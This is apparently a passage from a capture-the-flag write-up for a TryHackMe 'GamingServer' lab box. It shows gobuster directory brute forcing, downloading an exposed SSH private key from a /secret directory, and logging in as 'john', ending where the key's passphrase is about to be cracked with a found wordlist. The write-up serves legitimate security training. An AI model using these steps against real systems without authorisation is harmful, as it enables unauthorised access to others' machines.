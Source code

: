 Breakdown of gobuster command

dir - to run the gobuster in directory brute forcing mode

-u - The URL we want to target

-w - the wordlist we want to use for the attack


After running the command we get another directory to check out

```
uploads              (Status: 301) [Size: 312] [--> http://10.10.74.16/uploads/]
/secret               (Status: 301) [Size: 311] [--> http://10.10.74.16/secret/] 
```

The /secret directory had a password protected ssh key file

![[gamingserver secret.png]]

I downloaded the file using

```
┌[parrot]─[17:41-25/06]─[/home/glack/Desktop/THM/gamingserver]
└╼glack$wget http://10.10.74.16/secret/secretKey
```



## B. Gaining Access


After collecting all the details we can in the Enumeration phase we start using this information to gain access on the target system

Now we have a username "john" and a ssh RSA key file we can use to login to the target system

using this command

```
[parrot]─[17:52-25/06]─[/home/glack/Desktop/THM/gamingserver]
└╼glack$ssh john@10.10.74.16 -i secretKey
```

We get an error of bad permissions, to bypass this all we have to do is change the permissions of the RSA file using

```
[parrot]─[17:44-25/06]─[/home/glack/Desktop/THM/gamingserver]
└╼glack$chmod 600 secretKey
```

You can view more about chmod here[https://www.geeksforgeeks.org/chmod-command-linux/] 

And we run the ssh command again and we are prompted a share passkey 
``
```
Enter passphrase for key 'secretKey':
```

Now the only list of potential passphrase we have is the "dic.lst" file we found

